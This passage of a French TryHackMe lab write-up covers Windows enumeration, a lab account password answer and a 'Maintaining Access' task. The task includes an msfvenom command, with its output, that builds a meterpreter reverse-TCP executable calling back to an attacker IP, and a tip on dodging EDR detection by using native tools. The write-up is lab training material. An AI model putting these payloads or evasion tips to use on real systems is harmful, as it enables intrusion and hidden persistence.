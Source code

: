 Les serveurs Windows disposent d'outils intégrés permettant l'énumération sans nécessiter d'outils externes. Le Server Manager est particulièrement utile pour :

- Modifier les relations de confiance
- Gérer les utilisateurs et groupes
- Consulter les événements système
- Accéder aux configurations réseau

> L'utilisation d'outils natifs Windows réduit les risques de détection par les solutions EDR (Endpoint Detection and Response).
{: .prompt-tip }

---

#### Questions et résolutions

**Question 1 : What tool allows to view the event logs?**

Dans la machine Windows (accessible via l'interface TryHackMe), naviguez vers le menu `Tools` et identifiez l'outil de gestion des journaux d'événements.

**Réponse :** `Event Viewer`

---

**Question 2 : What is the SQL Service password?**

Dans l'application `Active Directory Users and Computers` :

1. Naviguez vers l'onglet `Users`
2. Localisez l'utilisateur `SQL Service`
3. Le mot de passe est visible dans les propriétés du compte

**Réponse :** `MYpassword123#`

---

### Task 7 - Maintaining Access

#### Introduction au maintien d'accès

Le maintien d'accès garantit la persistance sur un système même après redémarrage ou déconnexion. Cette section couvre la création d'une backdoor avec Msfvenom et le module Persistence de Metasploit.

#### Génération du payload

**Template Msfvenom :**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o shell.exe
```

**Génération du payload :**

```bash
┌──(omnimessie㉿omnimessie)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.43.133 LPORT=4444 -f exe -o shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

---